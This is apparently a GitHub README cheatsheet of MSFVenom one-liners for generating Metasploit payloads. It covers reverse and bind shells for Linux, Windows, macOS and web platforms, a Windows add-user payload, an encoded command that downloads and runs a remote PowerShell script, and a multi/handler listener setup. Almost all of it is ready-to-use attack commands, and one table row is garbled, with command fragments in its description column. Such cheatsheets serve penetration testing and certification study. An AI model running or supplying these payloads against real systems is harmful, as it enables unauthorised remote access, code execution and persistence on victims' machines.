 # MSFVenom-Cheatsheet



Single Page Cheatsheet for common MSF Venom One Liners\
Available in PDF, DOCX and Markdown format!_PDF and DOCX versions contain the payload size in bytes and a few more commands._

## MSFVenom Cheatsheet

***

| MSFVenom Payload Generation One-Liner                                                                                                                                                                                     | Description                                     |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------- |
| msfvenom -l payloads                                                                                                                                                                                                      | List available payloads                         |
| msfvenom -p PAYLOAD --list-options                                                                                                                                                                                        | List payload options                            |
| msfvenom -p PAYLOAD -e ENCODER -f FORMAT -i ENCODE COUNT LHOST=IP                                                                                                                                                         | Payload Encoding                                |
| msfvenom -p linux/x86/meterpreter/reverse\_tcp LHOST=IP LPORT=PORT -f elf > shell.elf                                                                                                                                     | Linux Meterpreter reverse shell x86 multi stage |
| msfvenom -p linux/x86/meterpreter/bind\_tcp RHOST=IP LPORT=PORT -f elf > shell.elf                                                                                                                                        | Linux Meterpreter bind shell x86 multi stage    |
| msfvenom -p linux/x64/shell\_bind\_tcp RHOST=IP LPORT=PORT -f elf > shell.elf                                                                                                                                             | Linux bind shell x64 single stage               |
| msfvenom -p linux/x64/shell\_reverse\_tcp RHOST=IP LPORT=PORT -f elf > shell.elf                                                                                                                                          | Linux reverse shell x64 single stage            |
| msfvenom -p windows/meterpreter/reverse\_tcp LHOST=IP LPORT=PORT -f exe > shell.exe                                                                                                                                       | Windows Meterpreter reverse shell               |
| msfvenom -p windows/meterpreter\_reverse\_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe | Windows Meterpreter http reverse shell          |
| msfvenom -p windows/meterpreter/bind\_tcp RHOST= IP LPORT=PORT -f exe > shell.exe                                                                                                                                         | Windows Meterpreter bind shell                  |
| msfvenom -p windows/shell/reverse\_tcp LHOST=IP LPORT=PORT -f exe > shell.exe                                                                                                                                             | Windows CMD Multi Stage                         |
| msfvenom -p windows/shell\_reverse\_tcp LHOST=IP LPORT=PORT -f exe > shell.exe                                                                                                                                            | Windows CMD Single Stage                        |
| msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe                                                                                                                                                | Windows add user                                |
| msfvenom -p osx/x86/shell\_reverse\_tcp LHOST=IP LPORT=PORT -f macho > shell.macho                                                                                                                                        | Mac Reverse Shell                               |
| msfvenom -p osx/x86/shell\_bind\_tcp RHOST=IP LPORT=PORT -f macho > shell.macho                                                                                                                                           | Mac Bind shell                                  |
| msfvenom -p cmd/unix/reverse\_python LHOST=IP LPORT=PORT -f raw > shell.py                                                                                                                                                | Python Shell                                    |
| msfvenom -p cmd/unix/reverse\_bash LHOST=IP LPORT=PORT -f raw > shell.sh                                                                                                                                                  | BASH Shell                                      |
| msfvenom -p cmd/unix/reverse\_perl LHOST=IP LPORT=PORT -f raw > shell.pl                                                                                                                                                  | PERL Shell                                      |
| msfvenom -p windows/meterpreter/reverse\_tcp LHOST=IP LPORT=PORT -f asp > shell.asp                                                                                                                                       | ASP Meterpreter shell                           |
| msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST=IP LPORT=PORT -f raw > shell.jsp                                                                                                                                          | JSP Shell                                       |
| msfvenom -p java/jsp\_shell\_reverse\_tcp LHOST=IP LPORT=PORT -f war > shell.war                                                                                                                                          | WAR Shell                                       |
| msfvenom -p php/meterpreter\_reverse\_tcp LHOST=IP LPORT=PORT -f raw > shell.php cat shell.php                                                                                                                            | pbcopy && echo '?php '                          |
| msfvenom -p php/reverse\_php LHOST=IP LPORT=PORT -f raw > phpreverseshell.php                                                                                                                                             | Php Reverse Shell                               |
| msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \\"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')"" -f python                                                                   | Windows Exec Nishang Powershell in python       |
| msfvenom -p windows/shell\_reverse\_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata\_ga\_nai -b "\x04\xA0"                                                                                                   | Bad characters shikata\_ga\_nai                 |
| msfvenom -p windows/shell\_reverse\_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/fnstenv\_mov -b "\x04\xA0"                                                                                                       | Bad characters fnstenv\_mov                     |

## Multihandler Listener

***

To get multiple session on a single multi/handler, you need to set the ExitOnSession option to false and run the exploit -j instead of just the exploit. For example, for meterpreter/reverse\_tcp payload,

```
msf>use exploit/multi/handler  
msf>set payload windows/meterpreter/reverse_tcp  
msf>set lhost <IP>  
msf>set lport <PORT>  
msf> set ExitOnSession false  
msf>exploit -j  
```

The -j option is to keep all the connected session in the background.

## References

https://kb.help.rapid7.com/discuss/598ab88172371b000f5a4675\
https://thor-sec.com/cheatsheet/oscp/msfvenom\_cheat\_sheet/\
http://security-geek.in/2016/09/07/msfvenom-cheat-sheet/
